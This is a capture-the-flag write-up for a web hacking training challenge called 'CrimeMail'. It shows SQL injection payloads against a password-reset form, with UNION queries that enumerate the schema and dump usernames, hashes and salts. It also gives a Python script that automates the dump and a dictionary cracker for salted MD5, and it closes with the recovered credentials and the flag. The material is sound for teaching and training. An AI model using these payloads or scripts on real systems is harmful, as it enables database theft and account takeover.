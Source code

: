 # CrimeMail

**Link**: [https://training04.webhack.it/](https://training04.webhack.it/)

**Hint**: his password's md5 is computed as followed: md5 = md5(password+salt) and Collins Hackle has a password which can be found in an **[english dictionary](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)**
.

The webapp is vulnerable to `SQLi`. The main form is not vulnerable but the `Lost password` section it is, in `/forgot.php`.

Just use as username this payload: `' or 1=1 #`   and it returns this:

```bash
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [1]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [2]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [3]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
}
```

Then using `UNION` I got the database name:

```bash
**' or 1=1 UNION SELECT(SELECT database()) #**
```

It returns:

```bash
array(3) {
  [0]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(2) "db"
  }
}
```

So the **database** name is `db`.

Then I tried to get the database schema:

```bash
' or 1=1 UNION SELECT(SELECT table_name from information_schema.tables WHERE table_schema="db") #
```

and it returns:

```bash
array(3) {
  [0]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(5) "users"
  }
}
```

There is only one **table** called `users`.

Then I got users’s `column` names:

```bash
' or 1=1 UNION SELECT(SELECT column_name from information_schema.columns WHERE table_schema="db" AND table_name="users") #
```

this returns more then one row so I had to limit it using **limit** and **offset:**

```bash
' or 1=1 UNION SELECT(SELECT column_name from information_schema.columns WHERE table_schema="db" AND table_name="users" limit 0,1) #
```

this **SQLi** returns the first row (`limit 0,1`)

It returns:

```bash
array(3) {
  [0]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(6) "userID"
  }
}
```

The **first** column is called `userID`.

I used this process to get all columns name: 

```json
userID
username
pass_md5
pass_salt
hint
```

Now let’s dump the db (somehow if I add `hint` to concat it won't work):

```json
' or 1=1 UNION SELECT(SELECT CONCAT(userID, " ", username, " ", pass_md5, " ", pass_salt)  from users limit 0,1) #
```

It returns:

```json
array(3) {
  [0]=>
  array(1) {
    ["hint"]=>
    NULL
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(49) "1 p.escobar c4598aadc36b55ba1a4f64f16e2b32f1 Jdhy"
  }
}
```

Then I automatized this process using `python`:

```python
import requests
import itertools
from bs4 import BeautifulSoup as BS
import re

challenge_auth_token=""
PHPSESSID=""
URL = "https://training04.webhack.it/hint.php"

session = requests.Session()
session.cookies.set("challenge_auth_token", challenge_auth_token)
session.cookies.set("PHPSESSID", PHPSESSID)

def make_request(params):
    global session
    return session.post(URL, data=params).text

def parse_response(text):
    soup = BS(text, "html.parser")
    try:
        query_results = soup.find("body").find("pre").get_text()
        re_pattern = r"\[2\].*\"(.*)\""
        matches = re.finditer(re_pattern, query_results, re.MULTILINE | re.DOTALL)
        for match in matches:
            return match.group(1)
    except Exception as e:
        return None

def main():
    users = []
    for i in itertools.count(start=0):
        params = {
            "username": f"' or 1=1 UNION SELECT(SELECT CONCAT(userID, \" \", username, \" \", pass_md5, \" \", pass_salt)  from users limit {i},1) #"
        }
        text = make_request(params)
        data = parse_response(text)
        if not data:
            break
        user = {
            "userID": data.split(" ")[0],
            "username": data.split(" ")[1],
            "pass_md5": data.split(" ")[2],
            "pass_salt": data.split(" ")[3]
        }
        users.append(user)
    print(users)

if __name__ == "__main__":
    main()
```

DB table users dump:

```json
[{'userID': '1', 'username': 'p.escobar', 'pass_md5': 'c4598aadc36b55ba1a4f64f16e2b32f1', 'pass_salt': 'Jdhy'}, {'userID': '2', 'username': 'g.dupuy', 'pass_md5': '0fd221fc1358c698ae5db16992703bcd', 'pass_salt': 'Kujh'}, {'userID': '3', 'username': 'a.capone', 'pass_md5': '23afc9d3a96e5c338f7ba7da4f8d59f8', 'pass_salt': 'hTjl'}, {'userID': '4', 'username': 'c.manson', 'pass_md5': 'fe3437f0308c444f0b536841131f5274', 'pass_salt': 'YbEr'}, {'userID': '5', 'username': 'c.hackle', 'pass_md5': 'f2b31b3a7a7c41093321d0c98c37f5ad', 'pass_salt': 'yhbG'}]
```

The `admin` user is `c.hackle` so now it is time to crack the password **hashed** (`md5`) and **salty**.

I created using python this `decryptor`:

```python
import hashlib
import json
from tqdm import tqdm

def decrypt(pass_md5, pass_salt):
    with open("./words_dictionary.json") as f:
        english_vocabulary = json.load(f)

    for word in tqdm(english_vocabulary.keys()):
        possible_psw = word+pass_salt
        result = hashlib.md5(possible_psw.encode())
        if result.hexdigest() == pass_md5:
            print("Password found: ", word)
            break

if __name__ == "__main__":
    decrypt("f2b31b3a7a7c41093321d0c98c37f5ad", "yhbG")
```

Clear password found: `pizza`

Then login in the form using the credentials `c.hackle:pizza`
Got the **flag**:  `WIT{8796fb6f729ad1927baf1a41804997ba}`
